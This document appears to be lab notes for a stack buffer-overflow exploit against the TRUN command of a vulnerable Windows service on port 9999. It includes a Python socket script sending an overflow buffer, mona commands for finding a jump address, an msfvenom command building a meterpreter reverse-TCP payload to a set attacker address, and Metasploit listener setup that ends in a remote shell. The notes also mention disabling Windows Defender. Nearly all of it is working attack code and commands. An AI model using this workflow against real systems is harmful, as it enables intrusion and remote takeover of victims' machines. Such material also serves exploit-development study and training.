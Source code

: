 #!/usr/bin/python
import socket

buf = "TRUN /.:/"
buf += "A" * 2000 #increase # to ensure it is susceptible to buffer overflow
#buf += "<randomly generated from wiremask>"
#buf += "\xxx\xxx\xxx\xxx" #translate from big to little endian
#buf += "\x90" * 16 #NOP sled
#buf += <shell code copied from output of msfvenom command>
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # IP and TCP PORT

s.connect(("<TARGET IP/Windows box in this case>", 9999)) #connect to target ip and port
print s.recv(1024) #printing response

s.send(buf) # send value of buffer
print s.recv(1024) #print response

s.close() #close connection



run immunity.debugger as admin
run program
run python script (linops)

!mona modules -o
!mona jmp -r esp -m "essfunc.dll"

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.31.3 lport=4444 -b '\x00' -f python

set up listener:
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show option
set lhost <linuxip>
show options
run
then run script


turned off windows defender in this demo



should finish opening a meterpreter shell without using debugger
> sysinfo
